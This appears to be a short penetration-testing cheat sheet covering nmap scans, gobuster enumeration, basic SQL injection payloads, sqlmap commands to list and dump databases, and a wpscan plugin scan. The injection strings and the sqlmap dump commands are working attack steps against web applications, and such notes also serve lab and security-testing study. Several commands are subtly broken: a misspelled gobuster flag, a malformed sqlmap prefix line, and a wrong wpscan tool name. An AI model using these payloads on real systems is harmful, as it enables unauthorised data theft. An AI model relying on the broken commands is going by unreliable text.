 # Enumeration 

## nmap

Quick scan
```bash
nmap <ip> --top-ports 30
```

Default scan
```bash
nmap <ip> -sV -sC
```

Detailed scan
```bash
nmap <ip> -p-
```

## Directory enumeration
```
gobuster dir -u <url> -w <wordlist>
```

## Domain enumeration
```
gobuster dns -d <domain> -w <wordlist>
```

## Vhost enumeration

```
gobuster vhost -u <url> --apend-domain -w <wordlist>
```

[ffuf scans much faster using HOST header](http://ffuf.me/sub/vhost)

## SQLInjection
Basic injections to test for strings:
```
bla' or 1=1; --
bla" or 1=1; --
bla' or 1=1; #
bla" or 1=1; #
```

Basic injections to test for integers:
```
1234 or 1=1; --
1234 or 1=1; #
```

Detect database type: [Details here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/README.md#dbms-identification)

Use sqlmap the following way if the string is closed via `"` ([details](https://github.com/sqlmapproject/sqlmap/wiki/Usage#custom-injection-payload))
```
sqlmap http://host.de/?para=anything --prefix'"'
```

Use sqlmap by defining raw request (e.g. raw http in request.req):
```
sqlmap -r request.req -p <parameter>
```

sqlmap enumeration after successful injection:
```bash
# show all databases
sqlmap <url> -p <parameter> --dbs
# show all tables in database
sqlmap <url> -p <parameter> -D <database> --tables
# dump table
sqlmap <url> -p <parameter> -D <database> -T <table> --dump
```

## Wordpress
Use `wp-scan` to enumerate WordPress sites (use [api-token](https://wpscan.com/) to list vulnerabilities of found wp version/plugins).
 ```bash
 # enumerate vulnerable plugins (aggressive checks)
wp-scan --url <url> --enumerate vp --plugins-detection aggressive
 ```